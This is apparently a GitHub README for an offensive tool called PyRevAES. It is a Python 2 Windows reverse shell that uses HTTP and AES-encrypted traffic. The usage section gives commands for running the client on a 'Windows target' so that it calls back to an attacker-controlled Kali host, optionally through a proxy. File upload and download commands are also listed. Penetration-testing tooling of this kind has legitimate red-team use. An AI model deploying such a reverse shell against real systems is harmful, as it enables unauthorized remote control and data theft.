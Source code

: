<h1 align="center">
	<img width="400" src="pyrevaes.png" alt="PyRevAES">
</h1>

# PyRevAES

A Windows Reverse Shell using HTTP methods with 256-bit AES encryption written in python version 2

If I get some time (and encouragement), I will convert this to a python3 project and probably use some oop.

## Usage:
1. Run server_shell_http.py from kali
2. Upload client_shell_http.exe to Windows target
3. Run the following command on the target for a reverse shell without proxy:
```
C:\client_shell_http.exe <kali_ip> 80
```
4. Run the following command for a reverse shell with proxy:
```
C:\client_shell_http.exe <kali_ip> <kali_port> <proxy_address> <Proxy_port>
```

## EXTRAS:
```client_shell_http.py``` - If you want to create your own executable or run directly from python,  code is available.

```TCP_proxy_online.py``` - TCP proxy from https://stackoverflow.com/questions/32468270/tcp-proxy-using-python Purely the work of voorloop. You might need to modfy lines 16 and 94 to modify the forwarded reverseshell/port and the proxy port, respectively.

```get-pip.py``` To install pip for python2 (after deprecation). Reference: https://bootstrap.pypa.io/

## COMMANDS:
```upload [filename]```

```download [filename]```     => Need to rename file after download.

```winreg```                 => displays help message


## Install
1. git clone <repo>
2. ```pip2 install -r requirements.txt```
3. ```python2 server_shell_http.py```
4. choose port ```80``` - Other ports may work, but it works best with port ```80```

## Issues
If there are issues with pip2 installation (due to deprecation) refer to this https://bootstrap.pypa.io/ to get pip working again for python2. 

If there are issues with pycrypto, install the following:
```sudo apt install build-essential libssl-dev libffi-dev python-dev```

If still having issues, try running everything using sudo.


## Notes:
- Logo made with courtesy of https://www.freelogodesign.org/
- Most of this code is from here https://www.trustedsec.com/2012/03/building-a-native-http-shell-with-aes-in-python/ and about twenty other different sources.  I apologise if I haven't referenced anyone's code here.
